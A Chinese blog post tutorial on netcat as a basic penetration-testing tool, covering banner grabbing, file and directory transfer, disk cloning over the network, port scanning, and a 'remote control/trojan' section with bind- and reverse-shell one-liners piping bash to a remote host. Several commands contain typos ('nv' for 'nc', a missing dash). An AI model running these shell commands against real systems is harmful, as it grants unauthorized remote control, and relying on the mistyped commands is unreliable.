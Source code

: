 ```yaml
---
layout:     post   				    # 使用的布局（不需要改）
title:      渗透测试基本工具（一）netcat 				# 标题 
subtitle:   Hello World, Hello Blog #副标题
date:       2019-07-25 				# 时间
author:     liberty 						# 作者
header-img: img/post-bg-2015.jpg 	#这篇文章标题背景图片
catalog: true 						# 是否归档
tags:								#标签
    - 渗透测试
---
```





NV（netcat）被称为网络工具中的瑞士军刀，体积小巧，功能强大，是一个多功能的工具。
主要功能：

## telnet / 获取banner信息

[TOC]

这个时候作为nc作为客户端使用，参数为-nv [目标主机ip] [端口号]

```bash
nc -nv 192.168.123.134 110 #-v 表示显示详细信息
nc -nv 192.168.123.123 23
```

## 传输文本信息

可用于电子取证，保证尽量少的修改目标机器的内容，以免磁盘扇区被覆盖。在自己的电脑上开服务端侦听，在远程电脑上开客户端

```bash
# 服务端:
nc -l -p 4444
# 客户端:
nc -nv 1.1.1.1 4444

# 电子取证 将客户端ls结果保存在服务端
# 服务端
nc -l -p 4444 > /tmp/ls.log
# 客户端
ls -al | nc -nv 1.1.1.1 4444 -q 1 # -q 1表示执行完1秒之后断开连接
```

## 传输文件/目录

### 传输文件

```BASH
# 接收端侦听
nc -lp 333 > 1.mp3
# 发送端：
nc -nv 1.1.1.1 333 < 1.mp4 -q 1
# 也可以反过来再发送端侦听
nc -q 1 -lp 333 < a.mp4
nv -nv 1.1.1.1 333 > 2.mp4
```

### 传输目录

```bash
先用tar打包然后再发送
#接收端
tar -cvf - music/ | nc -lp 333 -q 1
tar -cvf log.tar music/ | nc -lp 333 q 1
#发送端
nc -nv 1.1.1.1 333 | tar -xvf -
```

### 加密传输文件

```bash
# 暂时跳过
nc -lp 333 | mcrypt --flush Fbqd -a rijndael-256 -m ecb > 1.mp4

```

## 远程控制/木马

分为正向控制和反向控制

```bash
# 正向控制
nc -lp 333 -c bash
nv -nv 1.1.1.1 333
# 反向控制
nc -lp 333
nc -nv 1.1.1.1 333 -c bash # 如果是Windows的话则为cmd
```

## 加密所有流量

## 流媒体服务器

## 远程克隆硬盘

```bash
### 接收端 侦听
nc -lp 333 | dd of=/dev/sda
# 发送端
dd if=/dev/sda | nc -nv 1.1.1.1 333 -q 1
```

## 端口扫描

不如nmap准确，只作为辅助使用

```bash
nc -nvz 1.1.1.1-65535 # -z 扫描模式
nc -nvzu 1.1.1.1 1-65535 # 扫描udp端口
```
